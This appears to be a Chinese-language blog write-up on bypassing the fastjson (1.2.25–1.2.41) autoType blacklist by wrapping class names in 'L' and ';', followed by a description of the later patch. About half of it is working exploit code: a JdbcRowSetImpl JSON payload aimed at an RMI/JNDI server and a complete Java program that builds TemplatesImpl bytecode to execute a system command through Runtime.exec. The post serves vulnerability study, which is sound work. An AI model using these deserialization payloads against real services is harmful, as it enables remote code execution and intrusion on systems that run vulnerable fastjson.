







前面介绍了最早的一个漏洞的利用方式。后来通过关闭默认的autotype以及增加黑名单来进行防御。本片文章分析了绕过这一防御的方式。
整个复现系列的payload放在了github上。
漏洞信息
影响版本
- 1.2.25 <= fastjson <=1.2.41
利用条件
- 打开autotype
- JVM启动参数: -Dfastjson.parser.autoTypeSupport=True
- 代码中设置: ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
漏洞分析
从1.2.25开始，增加了checkAutoType函数，加入了黑名单+白名单来防御autoType开启的情况。而此次的漏洞就是因为在autoType开启的情况下，绕过了checkAutoType。定位到checkAutoType代码(com.alibaba.fastjson.parser.ParserConfig.class)。


图中标注的4个框中的条件，后续的几次绕过也与它们有关，所以一起标注出来了。
- 第一个框: 开启autoTypeSupport，通过白名单，再通过黑名单
- 第二个框: 从已经存在的map中获取clazz，若存在clazz，则直接返回
- 第三个框: 未开启autoTypeSupport，通过黑名单，再通过白名单，就加载目标类
- 第四个框: 开启autoTypeSupport，前面2步通过，就加载目标类
根据上述可知，最终加载目标类有3种方式，一是不开启autoTypeSupport，二是开启autoTypeSupport，三是从map中获取clazz。
正常情况下TemplatesImpl类和JdbcRowSetImpl类的利用方式是无法成功的，因为com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl和com.sun.rowset.JdbcRowSetImpl位于黑名单com.sun.中，如下图所示:

因此，绕过黑名单是一定需要的。因此这种情况下map中并不存在。
绕过黑名单
此次分析的是，当autoType开启时，绕过黑名单，从而加载目标类。即通过第1，2个框，从而进入第4个框的方式。那么如何绕过呢？这就跟第4个框中的loadClass函数相关了。定位到TypeUtils.loadClass()。

可以看到它对className进行了处理之后再loadClass。
- 若className以
[开头，则将其去掉。
- 若className以
L开头，且以;结尾，也将这两者去掉
前面黑名单的判断是用startsWith()这样的函数，这就给了攻击者可乘之机。再加上以[开头会实例化一个长度为0的Array，这里会出错。因此，只能利用className以L开头。且以;结尾的方式。
EXP构造
JdbcRowSetImpl
1
2
3
4
5
| {
"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
"dataSourceName":"rmi://127.0.0.1:1099/EvilObject",
"autoCommit":true
}
|
完整的demo:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
|
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class jdbcrowsetimpl2 {
public static void main(String args[]) {
String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/EvilObject\",\"autoCommit\":true}";
ParserConfig config = new ParserConfig();
config.getGlobalInstance().setAutoTypeSupport(true);
Object res = JSON.parse(payload);
}
}
|
TemplatesImpl

完整的demo:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
| import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.codec.binary.Base64;
import java.io.*;
public class templatesimpl {
public static class StubTransletPayload extends AbstractTranslet implements Serializable {
private static final long serialVersionUID = -5971610431559700674L;
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException{}
}
public static void main(String[] args) throws Exception{
String command = "/Applications/Calculator.app/Contents/MacOS/Calculator";
String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
"\");";
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass clazz = pool.get(StubTransletPayload.class.getName());
clazz.makeClassInitializer().insertAfter(cmd);
CtClass superC = pool.get(AbstractTranslet.class.getName());
clazz.setSuperclass(superC);
byte[] classBytes = clazz.toBytecode();
String bytes1 = Base64.encodeBase64String(classBytes);
String NASTY_CLASS = "Lcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;";
String text1 = "{\"@type\":\"" + NASTY_CLASS +
"\",\"_bytecodes\":[\""+bytes1+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
"\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
ParserConfig config = new ParserConfig();
config.getGlobalInstance().setAutoTypeSupport(true);
Object res = JSON.parse(text1, Feature.SupportNonPublicField);
}
}
|
补丁
1.将黑名单机制中的字符串改为hashcode

2.对checkAutoType也做了改变
用于防止上述加入L和;的情况。

但是很显然，这样的改变使用2层L和;就能绕过。绕过的细节，在下一个系列进行介绍。
参考